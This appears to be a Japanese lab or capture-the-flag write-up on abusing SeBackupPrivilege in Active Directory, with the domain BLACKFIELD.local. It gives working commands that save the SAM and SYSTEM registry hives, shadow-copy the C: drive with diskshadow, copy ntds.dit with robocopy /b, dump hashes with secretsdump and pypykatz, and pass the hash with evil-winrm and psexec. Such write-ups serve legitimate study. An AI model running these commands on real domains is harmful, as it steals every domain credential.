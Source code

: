 ## ntds.ditとは？
- **ドメインコントローラーの中でも最も重要なデータベースファイル**
- All data in Active Directory is stored in the file **ntds.dit** (by default located in `C:\Windows\NTDS\`) on every domain controller. (c.f.[Ntds.dit Password Extraction(stealthbits)](https://attack.stealthbits.com/ntds-dit-security-active-directory))
- Admin権限 or **backupユーザー** であれば見れるかも
- **SeBackupPrivilege**が読むことを、**SeRestorePrivilege**が書き込むこと、この二つの権限があれば良い。
- ntds.ditの存在場所：**C:\Windows\NTDS\ntds.dit**
- NTDSファイルをdecryptするためにはkeyが必要で、そのkeyは**system registry hive**なるレジストリに含まれている。-> `reg save hklm\system c:\temp\system`

**SeBackupPrivilege**がある：

```
*Evil-WinRM* PS C:\Users\svc_backup> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

# 一番手っ取り早い方法（adminのファイル読むだけなら）

[このスクリプト](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1)を使う：


![change_permission](https://user-images.githubusercontent.com/85237728/149320232-492d553b-6219-4981-b06c-5a81d6d61cac.png)

（**BLACKFIELD.local**はドメイン名。**svc_backup**はカレントユーザ）


`whoami`でsystemとは出ないが、確かにroot.txtが読めた。すなわちsystem権限を奪取した。

# シェルをとる

```
reg save hklm\sam .\sam
reg save hklm\system .\sytem
```

これらをKaliに送ってハッシュダンプ：

```
impacket-secretsdump -sam sam -system system LOCAL

pypykatz registry --sam sam system
```

あとはpass the hash：

```
evil-winrm -i <target IP> -u <username> -H <NThash>

rlwrap impacket-psexec  <username>@<target IP> -hashes <LMhash:NThash>
```

# これもあり（参考：[Windows PrivEsc with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)）

ntds.ditのコピーにおいて、普通の`copy`コマンドではpermission deniedになってしまう。そこで`robocopy`を使う。特に`/b`（または`/B`）フラグで**バックアップとして**コピーができる。つまりAdmin権限がなくても、backupユーザの権限があればpermission deniedにならない（[robocopyについての詳細](https://n-archives.net/software/robosync/articles/robocopy-specs-and-command/#i-3-1)）

*注）先に`mkdir C:\temp`として一時的なディレクトリを作っておく*

-> しかし`PS C:\temp> roboropy C:\Windoes\NTDS\ntds.dit . ntds.dit`というふうに直接コピーすると、現在アクティブなのでコピーできないと言われる。

-> そこで新しいドライブを作り、`diskshadow`でドライブ間のコピーを行うという方法をとる

（スクリプト）

```
┌──(kali㉿kali)-[~]
└─$ cat back_script.txt
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

- スクリプトターゲット上にアップロード（遅かったらsmb使おう）：

```
*Evil-WinRM* PS C:\Users\svc_backup\Downloads> upload /home/kali/back_scrip.txt
```

- `diskshadow`コマンドにスクリプトを指定して実行：

```
*Evil-WinRM* PS C:\Users\svc_backup\Downloads> diskshadow /s back_script.txt
```

これで E:\ ドライブに C:\ ドライブの内容がコピーされた。E:\は現在アクティブじゃないから、`robocopy`が使える：

```
*Evil-WinRM* PS E:\> cd C:\ 
*Evil-WinRM* PS C:\> mkdir tmp
*Evil-WinRM* PS C:\> cd tmp
*Evil-WinRM* PS C:\temp> robocopy /b E:\Windows\ntds . ntds.dit
```

- ntds.ditの復号にはレジストリのキーが必要なのでそれをロードする：

```
*Evil-WinRM* PS C:\temp> reg save hklm\system c:\temp\system
```

その後**ntds.dit**と**system**をKaliに転送する。

Kali上でcrack：

```
secretsdump.py -system system -ntds ntds.dit LOCAL
```
